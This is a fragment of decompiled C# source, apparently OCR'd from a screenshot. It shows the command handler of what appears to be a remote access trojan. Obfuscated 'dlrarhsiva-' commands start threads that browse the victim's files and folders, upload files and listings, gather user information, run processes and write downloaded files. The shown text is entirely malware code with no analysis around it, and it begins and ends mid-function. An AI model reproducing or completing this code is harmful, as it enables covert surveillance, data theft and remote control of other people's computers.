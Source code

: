                     this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivaHD.dlrarhsivalookFiles(CS$<>8__locals1.switchType[1]);
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-file":
                    this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivapush_file(CS$<>8__locals1.switchType[1]);
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-info":
                    this.dlrarhsivafunThread = new Thread(new ThreadStart(this.dlrarhsivauser_info));
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-runf":
                    this.dlrarhsivaCMD.dlrarhsivado_process(CS$<>8__locals1.switchType[1].Split(new char[]
                    {
                        '>'
                    })[0]);
                    break;
                case "dlrarhsiva-fles":
                {
                    string files = this.dlrarhsivaHD.dlrarhsivalookupFiles(CS$<>8__locals1.switchType[1]);
                    if (files != null)
                    {
                        this.dlrarhsivafunStarter = delegate()
                        {
                            CS$<>8__locals1.<>4__this.dlrarhsivapush_data(null, "dlrarhsiva-fles=|dlrarhsiva".Split(new char[]
                            {
                                '|'
                            })[0] + files, false);
                        };
                        this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                        this.dlrarhsivafunThread.Start();
                    }
                    break;
                }
                case "dlrarhsiva-dowr":
                    this.dlrarhsivasaveFile(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-fldr":
                {
                    string Folders = this.dlrarhsivaHD.dlrarhsivacheckFolders(CS$<>8__locals1.switchType[1]);
                    if (Folders != null)
                    {
                        this.dlrarhsivafunStarter = delegate()
                        {
                            CS$<>8__locals1.<>4__this.dlrarhsivapush_data(null, "dlrarhsiva-fldr=|dlrarhsiva".Split(new char[]
                            {
                                '|'
                            })[0] + Folders, false);
                        };
                        this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                        this.dlrarhsivafunThread.Start();
                    }
                    break;
                }
                }
            }